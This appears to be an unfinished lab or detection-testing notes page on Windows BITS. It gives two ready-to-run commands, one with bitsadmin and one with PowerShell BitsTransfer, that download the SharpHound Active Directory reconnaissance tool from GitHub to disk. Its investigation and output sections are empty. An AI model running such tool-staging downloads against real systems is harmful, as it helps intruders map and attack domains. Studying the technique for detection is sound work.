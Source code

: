 # BITS

## To Prepare

`bitsadmin /create 1 bitsadmin /addfile 1 https://github.com/BloodHoundAD/SharpHound/releases/download/v1.0.3/SharpHound-v1.0.3.zip c:\SharpHound-v1.0.3.zip bitsadmin /RESUME 1 bitsadmin /complete 1`

OR

`Import-Module BitsTransfer; Start-BitsTransfer -Source https://github.com/BloodHoundAD/SharpHound/releases/download/v1.0.3/SharpHound-v1.0.3.zip -Destination c:\SharpHound-v1.0.3.zip`

## To Investigate

## Example Output


